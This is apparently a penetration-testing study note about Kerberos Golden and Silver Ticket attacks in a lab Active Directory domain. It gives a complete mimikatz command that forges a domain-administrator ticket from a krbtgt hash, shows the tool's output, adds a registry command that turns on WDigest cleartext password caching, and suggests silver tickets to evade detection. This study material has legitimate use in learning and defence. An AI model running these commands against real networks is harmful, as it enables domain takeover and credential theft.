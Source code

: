 >[!question] What is a Golden Ticket ?__?
A Golden Ticket attack exploits weaknesses in the Kerberos identity authentication protocol, which is used to access the AD, allowing an attacker to bypass normal authentication.


We need to copy the SID of domain and NTLM of the kebtgt 
We can put a fake user and id 500 stands for your RID which is the id used for the admin account


mimikatz #
```
kerberos::golden /User:FakeUser /domain:marvel.local /sid:S-1-5-21-1232359821-2011282127-2883546489 /krbtgt:5dbde4a7fe0e1cced076a9a3ff2128ad /id:500 /ptt
```

User      : FakeUser
Domain    : marvel.local (MARVEL)
SID       : S-1-5-21-1232359821-2011282127-2883546489
User Id   : 500
Groups Id : *513 512 520 518 519
ServiceKey: 5dbde4a7fe0e1cced076a9a3ff2128ad - rc4_hmac_nt
Lifetime  : 30-07-2023 02:55:50 ; 27-07-2033 02:55:50 ; 27-07-2033 02:55:50
-> Ticket : ** Pass The Ticket **
 * PAC generated
 * PAC signed
 * EncTicketPart generated
 * EncTicketPart encrypted
 * KrbCred generated

Golden ticket for 'FakeUser @ marvel.local' successfully submitted for current session

mimikatz #

        wdigest :
         * Username : Administrator
         * Domain   : MARVEL
         * Password : (null)

PS C:\Users\Administrator> reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential  /t REG_DWORD /d 1

If Golden ticket gets picked up and want to get stealthier than look into the what a silver ticket is
https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/kerberos-silver-tickets


>[!question] What is a Silver Ticket? 
>A Silver Ticket is a forged service authentication ticket. A hacker can create a Silver Ticket by cracking a computer account password and using that to create a `fake authentication ticket`

>[!note] Difference b/w Golden and Silver Ticket.......
A Golden Ticket attack gives attackers complete control over an organization's Active Directory (AD). Using a silver ticket, an attacker can create multiple ticket-granting service (TGS) tickets for a specific service without communicating with a domain controller (DC) in a network.